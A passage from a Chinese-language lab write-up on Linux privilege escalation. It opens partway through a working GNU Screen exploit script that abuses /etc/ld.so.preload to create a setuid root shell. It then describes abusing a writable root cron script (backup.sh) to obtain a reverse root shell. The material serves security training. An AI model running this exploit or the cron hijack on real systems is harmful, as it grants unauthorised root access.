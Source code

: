    ```bash
   #include <sys/stat.h>
   __attribute__ ((__constructor__))
   void dropshell(void){
       chown("/tmp/rootshell", 0, 0);
       chmod("/tmp/rootshell", 04755);
       unlink("/etc/ld.so.preload");
       printf("[+] done!\n");
   }
   EOF
   gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
   rm -f /tmp/libhax.c
   cat << EOF > /tmp/rootshell.c
   #include <stdio.h>
   int main(void){
       setuid(0);
       setgid(0);
       seteuid(0);
       setegid(0);
       execvp("/bin/sh", NULL, NULL);
   }
   EOF
   gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
   rm -f /tmp/rootshell.c
   echo "[+] Now we create our /etc/ld.so.preload file..."
   cd /etc
   umask 000 # because
   screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
   echo "[+] Triggering..."
   screen -ls # screen itself is setuid, so...
   /tmp/rootshell
   ```

   提权成功
   ![image-20220826150335621](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826150335621.png)

### Cron Job Abuse

1.  Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron_abuse directory.
   查看`/etc/cron*`定时任务
   ![image-20220826205614006](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826205614006.png)
   其中有一个backup有读写权限
   内容如下
   ![image-20220826205725466](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826205725466.png)
   目标机器有`/bin/bash`命令，更改`backup`文件内容即可
   可以利用`find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`命令查看可写文件或目录，有一个`backup.sh`
   ![image-20220826211825422](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826211825422.png)
   查看文件内容可以得知这个文件是用来备份网站数据的
   ![image-20220826212318081](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826212318081.png)
   根据目录内文件的命名
   ![image-20220826212404636](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826212404636.png)
   推断可能是定时任务每2分钟执行一次脚本，backup.sh是可读写文件
   ![image-20220826212523094](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826212523094.png)
   修改脚本反弹shell，可以反弹属主root的shell
   ![image-20220826213216025](https://raw.githubusercontent.com/lant34m/pic/main/image-20220826213216025.png)
